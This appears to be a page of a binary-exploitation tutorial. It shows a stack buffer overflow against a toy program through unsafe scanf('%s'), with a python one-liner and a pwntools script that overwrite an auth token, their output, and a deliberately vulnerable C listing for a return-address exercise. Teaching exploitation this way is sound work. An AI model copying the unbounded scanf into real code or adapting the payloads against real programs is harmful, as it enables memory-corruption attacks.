 \documentclass{article}
\begin{document}
When we follow the 'A' characters with \texttt{0xef 0xbe 0xad 0xde},
\texttt{scanf()} writes \texttt{0xdeadbeef} to \texttt{a.token}, which causes
the program to call \texttt{win()}! Let's verify that it works without the
debugger as well.

\begin{lstlisting}
> python -c "print 'A' * 64 + '\xef\xbe\xad\xde'" | ./memory_corruption
Enter the password:
Access granted.
>
\end{lstlisting}

An implementation of this solution in \texttt{pwntools} is below.

\begin{lstlisting}
#!/usr/bin/python
from pwn import *

p = process("./memory_corruption")
p.sendline("A" * 64 + p32(0xdeadbeef))
print p.recv()
\end{lstlisting}

And the output when it is run:

\begin{lstlisting}
> ./memory_corruption_solution.py
[+] Starting local process './memory_corruption': pid 1531
[*] Process './memory_corruption' stopped with exit code 0 (pid 1531)
Enter the password:
Access granted.

> 
\end{lstlisting}

This strategy is severely limited by the fact that it relies on the buffer being
allocated to a lower address than the token. However, we can still exploit the
unsafe call to \texttt{scanf()} without relying on this. Recall that whenever
a function (including \texttt{main()}) is called, the calling function stores a
return address is stored on the stack as part of the calling convention. After
the callee finishes executing, control resumes from the instruction located at
the return address. Therefore, if we can leverage the unsafe call to
\texttt{scanf()} to overwrite the return address with the location of
\texttt{win()}, we can call it regardless of the order of the local variables.
We'll try this technique on the program below.

\begin{lstlisting}
#include <stdio.h>
#include <string.h>

void empty(void) {
    printf("You don't have permission to perform this action.\n");
}

void win(void) {
    printf("Access granted.\n");
}

void lose(void) {
    printf("Invalid auth token.\n");
}

typedef struct auth {
    long int token;
    char buf[64];
} auth;

int main(void) {
    auth a;
    memset(a.buf, 0, 64);
    a.token = 0;

    printf("Enter the password:\n");
    scanf("%s", a.buf);

    if (a.token == 0) {
        empty();
    } else if (a.token == 0xdeadbeef) {
        win();
    } else {
        lose();
    }
}
\end{lstlisting}
\end{document}

